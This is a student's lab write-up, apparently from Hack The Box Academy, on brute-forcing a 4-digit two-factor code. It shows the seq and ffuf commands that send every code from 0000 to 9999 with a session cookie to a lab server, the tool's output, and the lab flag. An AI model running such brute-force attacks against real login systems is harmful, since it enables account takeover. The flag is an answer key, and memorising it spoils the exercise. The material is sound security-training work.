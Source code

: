 ```yaml
---
sticker: emoji//1faaa
---
```

Two-factor authentication (2FA) provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device). However, 2FA can also be achieved by combining any other two of the major three authentication categories we discussed previously. Therefore, 2FA makes it significantly more difficult for attackers to access an account even if they manage to obtain the user's credentials. By requiring users to provide a second form of authentication, such as a one-time code generated by an authenticator app or sent via SMS, 2FA mitigates the risk of unauthorized access. This extra layer of security significantly enhances the overall security posture of an account, reducing the likelihood of successful account breaches.

---

## Attacking Two-Factor Authentication (2FA)

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web application does not implement measures against successive submission of incorrect TOTPs. For our lab, we will assume that we obtained valid credentials in a prior phishing attack: `admin:admin`. However, the web application is secured with 2FA, as we can see after logging in with the obtained credentials:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png)

The message in the web application shows that the TOTP is a 4-digit code. Since there are only `10,000` possible variations, we can easily try all possible codes. To achieve this, let us first take a look at the corresponding request to prepare our parameters for `ffuf`:

![image](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png)

As we can see, the TOTP is passed in the `otp` POST parameter. Furthermore, we need to specify our session token in the `PHPSESSID` cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from `0000` to `9999` like so:


```shell-session
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the `Invalid 2FA Code` error message:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

As we can see, we get many hits. That is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since `6513` was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to `/admin.php`. To access the protected page, we can simply access the endpoint `/admin.php` in the web browser and see that we successfully passed 2FA.

# Question
---

![](Pasted%20image%2020250214162315.png)

Ok, let's authenticate:

![](Pasted%20image%2020250214162403.png)

Once we try to authenticate, we go to `/2fa.php` and subsequently, we are able to see this:


![](Pasted%20image%2020250214162451.png)

We need a 2FA code, but we do not have one, what can we do now?

This is were brute-forcing the 2fa code, comes in handy, let's do it:

First, let's generate our list of codes:

```
seq -w 0 9999 > tokens.txt
```

Next, let's check the response of what an invalid code looks like, for example, if we enter 1111:

![](Pasted%20image%2020250214162733.png)

We get `Invalid 2FA Code`, knowing all this, we can build our ffuf command:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200 
```

After a while, we get this:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.116:39864/2fa.php
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=vcvsoagh3ordpepfb49nanpv57
 :: Data             : otp=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid 2FA Code
________________________________________________

0085                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 792ms]
0097                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 776ms]
0041                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 790ms]
0022                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
0043                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 807ms]
0038                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 806ms]
```

The first code is our 2fa code:

```
0085
```

We can now authenticate:

![](Pasted%20image%2020250214163819.png)

Flag is:

```
HTB{9837b33a1ef678c380addf7ef8a517de}
```